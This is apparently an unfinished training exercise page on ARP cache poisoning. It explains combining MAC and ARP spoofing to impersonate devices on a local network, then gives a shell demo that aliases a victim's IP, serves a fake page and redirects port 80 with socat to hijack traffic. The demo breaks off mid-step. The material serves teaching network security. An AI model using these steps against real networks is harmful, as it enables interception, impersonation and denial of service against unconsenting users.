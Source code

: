 We'll begin by ensuring you have successfully completed the [set up](#set-up) steps. This process will also introduce the fundamentals that you need to understand to complete the rest of the exercise.

## Introduction

> :construction: TK-TODO

## Performing an ARP cache poisoning attack

In this exercise we will pretend to be a machine on the LAN that we are not by lying about the IP address we were given by the LAN's DHCP server. This will enable us to arbitrarily redirect local network traffic to any machine we wish, including ourselves, such that we can perform network-based Denial-of-Service (DOS) or Machine-in-the-Middle (MITM) attacks. We will accomplish this by exploiting the lack of peer authentication in the Address Resolution Protocol (ARP), which maps an ethernet device's MAC address to its IP address.

Essentially, we will be performing an *ARP spoofing* attack. As this behavior is relatively conspicuous, we will also cover the basics of *MAC address spoofing*, which will assign a fake hardware address to the NIC you will use to emit spoofed ARP replies to the network. This combination of MAC and ARP spoofing enables you to masquerade as any other device on the local network segment.

> :construction: TK-TODO: This whole section is still just notes.

A demo of performing an ARP cache poisoning attack.

Don't forget to spoof your own hardware address first:

* [SimpleSpoofMAC](https://github.com/meitar/SimpleSpoofMAC)

```sh
# Some assumptions for this demo:
VICTIM_IP=192.168.9.10
VICTIM_mDNS=server.local
INTERFACE=en0

# Make a temporary directory to store our spoofed site.
mkdir /tmp/hijack
cd !$ # Go there.

# Place an `index.html` file in the directory that will be the
# HTTP server's document root.
echo "Expecting a local server? Surprise! It's been hijacked by an ARP cache poisoning attack." > index.html

# Start an HTTP server on port 8000 (the default).
python3 -m http.server &

# Become a `sudo`'er so that we can bind to privileged ports.
su admin

# Redirect port 80 traffic to our HTTP server on localhost.
sudo socat TCP4-LISTEN:80,reuseaddr,fork TCP:127.0.0.1:8000

# Find the IP address of the device we are going to impersonate.
dns-sd -G v4 $VICTIM_mDNS # Resolve (via mDNS) the server's domain name.
# GNU/Linux users will probably want to do:
#avahi-resolve --name -4 $VICTIM_mDNS

# Alias our own NIC to the IP address that we want to masquerade as.
# NOTE: This is not necessary for an MITM, since we just need to pass
# traffic back and forth between our two targets. However, as this is
# demos a *hijack* rather than an MITM, we need to respond *as* the
# target instead of passing traffic *to* the target.
sudo ifconfig $INTERFACE ${VICTIM_IP}/24 alias
# GNU/Linux users will probably want to do this instead:
```